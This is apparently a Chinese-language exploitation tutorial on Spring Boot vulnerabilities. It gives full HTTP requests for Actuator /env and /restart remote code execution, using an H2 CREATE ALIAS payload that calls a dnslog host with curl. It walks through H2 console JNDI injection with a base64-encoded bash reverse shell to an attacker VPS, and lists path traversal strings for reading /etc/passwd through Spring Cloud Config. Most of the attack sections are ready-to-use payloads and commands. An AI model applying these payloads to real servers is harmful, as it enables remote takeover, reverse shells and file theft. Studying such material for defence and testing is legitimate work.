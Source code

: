 # Spring boot漏洞利用（2）

前面讲了Spring boot的相关漏洞的利用·，这篇继续讲一些Spring boot漏洞的利用

### Spring boot 2.x Actuator配置不当导致RCE

**影响版本**

spring-boot-starter-actuator 2.x with h2

**漏洞利用**

2.x与1.x的漏洞利用是不同的

（1）访问/actuator/env目录，如果存在，则可以试一下如下利用方式。

```
POST /actuator/env HTTP/1.1
Host: ip:60802
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 362

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('curl http://ekb365.dnslog.cn');"}
```

![image-20200828160930548](pictures/image-20200828160930548.png)



需要注意Content-Type: application/json

（2）执行重启命令来执行第一步发送的命令

```
POST /actuator/restart HTTP/1.1
Host: ip:60804
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 2

{}
```

![image-20200828161009288](pictures/image-20200828161009288.png)

dnslog平台成功收到了

![image-20200828161038262](pictures/image-20200828161038262.png)

### Spring Boot + H2数据库JNDI注入RCE



H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权。

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

**漏洞利用**

（1）访问he-console，如果存在，就会出现如下所示界面。

<img src="pictures/image-20200828161459922.png" alt="image-20200828161459922" style="zoom:67%;" />

（2）配置JNDI监听，工具下载地址：[https://github.com/su18/JNDI ](https://github.com/su18/JNDI)

（3）修改监听工具的配置文件，这里的端口选择自己在vps上开放的端口

<img src="pictures/image-20200828161637341.png" alt="image-20200828161637341" style="zoom:67%;" />

（4）配置反弹shell的命令

命令配置使用了command=bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC92cHMvNDQ0NyAwPiYx==}|{base64,-d}|{bash,-i}。这里base64编码是bash -i >& /dev/tcp/vps/4447 0>&1

![image-20200828161736292](pictures/image-20200828161736292.png)

（5）配置好后启动：java -jar JNDI-1.0-all.jar

（6）通过http：// ip：port / h2-console访问h2db管理台，在驱动程序类中插入javax.naming.InitialContext，	在JDBC网址中填充：rmi://vps:4444/BypassByEL

<img src="pictures/image-20200828161849069.png" alt="image-20200828161849069" style="zoom:67%;" />

​	JNDI收到了请求

<img src="pictures/image-20200828161918075.png" alt="image-20200828161918075" style="zoom:67%;" /> 

​	成功接受到了反弹的shell。

<img src="pictures/image-20200828161937962.png" alt="image-20200828161937962" style="zoom:67%;" /> 

### Spring Cloud Config目录穿越

这里分享两个POC

- /foo/default/master/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc/passwd
- /..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/master



<img src="pictures/image-20200828162621094.png" alt="image-20200828162621094" style="zoom:67%;" />



<img src="pictures/image-20200828162740251.png" alt="image-20200828162740251" style="zoom:67%;" />



